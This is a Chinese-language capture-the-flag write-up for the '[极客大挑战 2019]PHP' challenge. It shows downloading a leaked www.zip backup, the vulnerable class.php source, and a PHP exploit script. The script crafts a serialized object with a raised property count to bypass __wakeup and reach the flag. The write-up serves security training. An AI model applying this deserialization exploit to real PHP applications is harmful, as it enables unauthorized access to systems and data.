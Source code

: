 # [极客大挑战 2019]PHP

## 考点

- 备份文件 www.zip

- php反序列化 wakeup绕过

## 解题

访问 `/www.zip` 下载源码

下载下来发现文件中有index.php，flag.php和class.php，直接提交flag.php是错误的

- index.php

![img]([极客大挑战 2019]PHP/0082zybply1gc1x9nl7bfj30pw07cwfg.jpg)

- class.php

  ```php
  <?php
  include 'flag.php';
  error_reporting(0);
  class Name{
      private $username = 'nonono';
      private $password = 'yesyes';
  
      public function __construct($username,$password){
          $this->username = $username;
          $this->password = $password;
      }
  
      function __wakeup(){
          $this->username = 'guest';
      }
  
      function __destruct(){
          if ($this->password != 100) {
              echo "</br>NO!!!hacker!!!</br>";
              echo "You name is: ";
              echo $this->username;echo "</br>";
              echo "You password is: ";
              echo $this->password;echo "</br>";
              die();
          }
          if ($this->username === 'admin') {
              global $flag;
              echo $flag;
          }else{
              echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
              die();
          }
      }
  }
  ?>
  ```

- exp

  ```php
  <?php
  class Name
  {
      private $username = 'admin';
      private $password = '100';
  }
  $a = new Name();
  #进行url编码，防止%00对应的不可打印字符在复制时丢失
  echo urlencode(serialize($a));
  #未编码的情况
  //O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";s:3:"100";}
  //使用时将URL编码的结果中Name后面的2换成3或其他值
  ?>
  ```

![img]([极客大挑战 2019]PHP/0082zybply1gc1xd3fc1kj319w0rw462.jpg)